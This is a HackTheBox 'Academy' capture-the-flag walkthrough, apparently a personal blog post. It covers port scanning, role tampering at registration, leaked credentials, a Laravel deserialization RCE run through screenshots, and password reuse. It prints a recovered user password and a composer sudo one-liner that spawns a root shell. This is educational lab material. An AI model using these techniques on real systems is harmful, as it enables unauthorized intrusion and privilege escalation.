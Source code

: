 ```yaml
---
title: (HTB) - Academy
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux,Apache, PHP, Deserialization, CVE-2018-15133, Laravel, Sudo Exploitation, CVE-2017-16894, Public Vulnerabilities, JWT, Clear Text Credentials, Password Reuse, CVE Exploitation, Group Membership]
math: true
mermaid: true
image:
  src: /assets/images/c8acecba42ca6f9e9b8ed126435cdb235a5359a7998cd21086a1fa981d5d2236.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Academy is a new product from hack the box and this box gives a preview into it. This box however unlike the real HTB Academy has been made vulnerable** 

# ENUMERATION
## NMAP
Let's start NMAP
```
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see that there is port 80 open which seems most insteressting so far.

## WebPage
	
> Add the `academy-.htb` to hosts file. 

Register to academy and login:
![picture 24](images/634e358fa53a49ee32b2aad6a0f7896221b93503c9e4c864d0c2d173420074db.png)  

I've checked the source code but there is nothing linked.

I noticed there are 2 portals available, login for users and admin.`admin.php`.

While registering there it is possible to change the role with `roleid` parameter.
![picture 25](images/61a0095797e9c1146669275ba9f211c4548a8a66c20e83e99938684d9e88ca4c.png)

This enabled login to `admin.php`, and there we can find some hints:
![picture 26](images/fb5a4a3a87ce5db7e47765856ec90a548377ba1ba4176effe9694e9a2ea30f28.png)

Let us put `dev-staging-01.academy.htb` to the hosts file and check it out:
![picture 27](images/4e9262ca8a9b72d54b1ae4a2f5d17ef5d7c861afa67908a4f8f3250d9fa43680.png)

There we can find DB credentials

![picture 28](images/52f5ea99f2917a858a8c2a3a8afbacb0046301ea2da533060b2703e842067002.png)

And there is also a API key, but there is also vulnerability present in laravel framework for this version:

> This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.

![picture 29](images/8fdf5c7aa7dafc53c026b48dc4ebff690bba440c856f7afc61070f5b7ce4cd50.png)

Running it gives us shell:

![picture 30](images/32da3a270d38091ba91db231a3f25713f50465369e104d36403f913ea5fcc2f6.png)

Linpeas has found quite a few passwords but only this looks promising since it is not from the dev stage...

![picture 31](images/d52eaa7d0136547ccfedbfccc715fa2ae1f1acb1787ed122f5588b4cc7b926ff.png)

Password won't work for mysql but it will work for `cry0l1t3` user!

![picture 32](images/0e0a8efdde5485992fe85c5911d4df1806e6c05b4dcd24271f0b423f819cee34.png)

Same creds will work for SSH!

# PRIVILEGE ESCALATION

Running `Linpeas.sh` again has found following credentials. This was possible as the `cry0l1t3` user belongs to adm group
```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

And logging in as user `mrb3n` now, we can see that it can run composer with sudo rights:

```
mrb3n@academy:/var/log$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
	  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
User mrb3n may run the following commands on academy:
	  (ALL) /usr/bin/composer
```

Reference GTFObins: https://gtfobins.github.io/gtfobins/composer/

```	
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running commands above grant us root access:

![picture 33](images/daa8887a1b5ebd116bd5c1e5e3b35870a6d4fe732db020432c7e235b438367f5.png)
